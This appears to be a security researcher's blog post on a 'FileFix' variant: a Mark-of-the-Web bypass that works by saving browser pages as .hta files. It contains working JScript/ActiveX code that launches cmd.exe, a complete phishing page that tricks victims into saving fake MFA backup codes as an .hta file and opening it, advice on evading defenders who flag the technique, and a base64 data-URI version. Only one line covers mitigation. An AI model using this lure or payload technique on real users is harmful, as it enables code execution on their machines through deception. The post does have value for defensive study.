Another FileFix variation<!-- end -->.

# Introduction

Last week I released the [FileFix attack blog post](https://mrd0x.com/filefix-clickfix-alternative/) which is an alternative to the traditional ClickFix attack. This blog post explores another variation to the original FileFix attack.

# Saving Webpages

While analyzing Chrome & MS Edge's behavior, I made an interesting observation. When an HTML page is saved using `Ctrl+S` or Right-click > "Save as" and either "Webpage, Single File" or "Webpage, Complete" types were selected, then **the file downloaded does not have MOTW**. Furthermore, this behaviour only applies if the webpage being saved has a MIME type of `text/html` or `application/xhtml+xml`. Other MIME types will result in the file being tagged with MOTW (e.g. `image/png`, `image/svg+xml` etc.)



<br>



Now the issue with saving the page using `Ctrl+S` is that selecting either MOTW-exempted formats results in the browser adding additional content to the start and end of the file. For example saving a webpage in the "Webpage, Single File" format creates a `.mhtml` file with the structure below where `[WEBSITE CONTENT HERE]` is all of the webpage's contents.

```
From: <Saved by Blink>
Snapshot-Content-Location: https://example.com/path/to/saved/file.html
Subject: 
Date: Wed, 23 Jun 2025 19:06:50 -0400
MIME-Version: 1.0
Content-Type: multipart/related;
	type="text/html";
	boundary="----MultipartBoundary--qCWAsGDCsuFcsHDxhPN54vrvzsscd2h8FvTNKxuYDb----"


------MultipartBoundary--qCWAsGDCsuFcsHDxhPN54vrvzsscd2h8FvTNKxuYDb----
Content-Type: text/html
Content-ID: <frame-209DDB4E543285936F5DACCC9FD98ED3@mhtml.blink>
Content-Transfer-Encoding: quoted-printable
Content-Location: https://example.com/path/to/saved/file.html

<html lang=3D"en"><head><meta http-equiv=3D"Content-Type" content=3D"text/h=
tml; charset=3DUTF-8"></head><body>

[WEBSITE CONTENT HERE]

</body></html>
------MultipartBoundary--qCWAsGDCsuFcsHDxhPN54vrvzsscd2h8FvTNKxuYDb------
```

<br>

On the other hand, saving the file as "Webpage, Complete" will have the following structure, again with `[WEBSITE CONTENT HERE]` being the webpage's contents.

```
<!DOCTYPE html>
<!-- saved from url=(0056)https://example.com/path/to/saved/file.html -->
<html><head><meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
[WEBSITE CONTENT HERE]
</body></html>
```

This is problematic because we can't control the entire contents of the saved file as it must follow one of the previously shown structures.

# HTML Applications

Luckily for us, HTML Applications (`.hta`) files can process HTML content without issues, allowing us to embed scripts directly within HTML-based file. To test this out, host an HTML file on a website and paste the following contents inside. 

> Testing this locally (i.e. `C:\Users\bob\index.html`) will not work so make sure to test it on an actual website.

```
<!DOCTYPE html>
<!-- saved from url=(0043)https://example.com/path/to/your/file.html -->
<html lang="en"><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8"></head><body>

<script language="JScript">
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("cmd.exe /c ping example.com");
</script>

</body></html>
```

Since the file is already structured the same way as if it were saved using the "Webpage, Complete" format, the browser won't modify it, besides the "saved from url" comment. Navigate to the HTML file via the browser, save it as "Webpage, Complete" format and add the `.hta` file extension. Once downloaded, run it and it should run immediately without any security warnings or prompts.



## Demo

[Higher quality here](./demo-1.mp4).



# Weaponization

Now that we've confirmed that we can execute the file, we need a social engineering trick to make the user save the HTML page. One idea that immediately comes to mind is asking users to save backup codes via `Ctrl+S`.

```html
<!DOCTYPE html>
<!-- saved from url=(0043)https://example.com/path/to/your/file.html -->
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Save Backup Codes</title>
  <style>
    body {
      font-family: 'Roboto', sans-serif;
      background: #f1f3f4;
      margin: 0;
      padding: 0;
      display: flex;
      align-items: center;
      justify-content: center;
      height: 100vh;
    }

    .card {
      background: #fff;
      width: 400px;
      border-radius: 8px;
      box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
      padding: 24px 32px;
      text-align: center;
    }

    h2 {
      margin-top: 0;
      font-weight: 400;
    }

    .desc {
      font-size: 0.95em;
      color: #5f6368;
    }

    .instructions {
      text-align: left;
      background: #f8f9fa;
      border-left: 4px solid #1a73e8;
      padding: 16px;
      margin: 24px 0;
      font-size: 0.9em;
      line-height: 1.8em;
    }

    .codes {
      display: grid;
      grid-template-columns: repeat(2, 1fr);
      gap: 12px;
      font-size: 1.1em;
      margin: 20px 0;
    }

    .codes div::before {
      content: "☐ ";
    }

    .footer {
      font-size: 0.8em;
      color: #666;
      margin-top: 12px;
    }

    .logo {
      margin-top: 16px;
    }

    .logo img {
      height: 24px;
    }

    button {
      margin-top: 20px;
      padding: 8px 16px;
      font-size: 0.9em;
      background: #f1f3f4;
      border: none;
      border-radius: 4px;
      cursor: pointer;
    }

    button:hover {
      background: #e0e0e0;
    }

    kbd {
      background: #eee;
      border-radius: 3px;
      padding: 2px 6px;
      font-family: monospace;
      font-size: 12px;
    }
  </style>
</head>
<body>
  <div class="card">
    <h2>Save your backup codes</h2>
    <div class="desc">Follow the instructions below to save your backup codes.</div>

    <div class="instructions">
      <div>1. Press <kbd>Ctrl</kbd> + <kbd>S</kbd> to save this page.</div>
      <div>2. Name the file <kbd><strong>MfaBackupCodes2025.hta</strong></kbd>.</div>
      <div>3. After saving, open the file to confirm the codes are stored properly.</div>
    </div>

    <div class="codes">
      <div>8234 6752</div>
      <div>1903 8441</div>
      <div>4527 3096</div>
      <div>6658 1204</div>
      <div>2719 4890</div>
      <div>5116 7385</div>
      <div>0327 1968</div>
      <div>7475 3261</div>
      <div>9082 6673</div>
      <div>3849 0570</div>
    </div>

    <div class="footer">
      You can only use each backup code once.<br>
    </div>

  </div>
  <script language="JScript">
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("cmd.exe /c ping example.com");
</script>
</body>
</html>
```



<br>



<br>



<br>



<br>

# Default "Save As" File Name

When a user attempts to save a page using `Ctrl+S`, the browser will automatically set the default name of the saved file to be whatever is in the `<title></title>` element, which in our example is "Save Backup Codes". If the system settings allow the user to see the file extension, they will see "Save Backup Codes.html" instead.

What the user sees if file extensions are not visible:



<br>

What the user sees if the file extensions are visible:



Now if the `<title>` was set to "Save Backup Codes.hta" and file extensions weren't visible, it would still save the file as "Save Backup Codes.hta.html". However if the user makes any changes to the file name, even as much as retyping the exact same name, the browser **will not append .html anymore**.

[Higher quality here](./demo-2.mp4).



A good strategy might be to set the title to something like `_.hta`, which prompts the user to modify the underscore and replace it with an appropriate name.

If defenders start flagging the website just because the title ends with ".hta", you can get rid of the the `<title>` element completely, rename the HTML phishing file to have a `.hta` file extension and send a `Content-Type` header with `text/html`. Saving the page will then set the default "Save as" name to the file name.

# Data URIs

Another point worth mentioning is that Data URIs that have a `text/html` MIME type will also save without MOTW. For example, if we have the following content:

```
This file will save without MOTW.
<script language="JScript">
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("cmd.exe /c ping example.com");
</script>
```

And we Base64 encode it and use it in our Data URI:

```
data:text/html;base64,VGhpcyBmaWxlIHdpbGwgc2F2ZSB3aXRob3V0IE1PVFcuCjxzY3JpcHQgbGFuZ3VhZ2U9IkpTY3JpcHQiPgogICAgdmFyIHNoZWxsID0gbmV3IEFjdGl2ZVhPYmplY3QoIldTY3JpcHQuU2hlbGwiKTsKICAgIHNoZWxsLlJ1bigiY21kLmV4ZSAvYyBwaW5nIGV4YW1wbGUuY29tIik7Cjwvc2NyaXB0Pg==
```



Press `Ctrl+S` on the page and save the file as "Webpage Complete". The file should be saved without MOTW.



## Conclusion

This blog post demonstrated another variation of FileFix that utilizes social engineering to run a `.hta` file. The easiest way to prevent this technique from working is to remove `mshta.exe` from being able to run `.hta` files. This is a good solution unless someone is able to utilize this technique with other file types.

I will be demonstrating one final variation of FileFix (hopefully) in the coming update of the [Offensive Phishing Operations course](https://maldevacademy.com/phishing-course) that also results in MOTW bypass, be sure to check it out.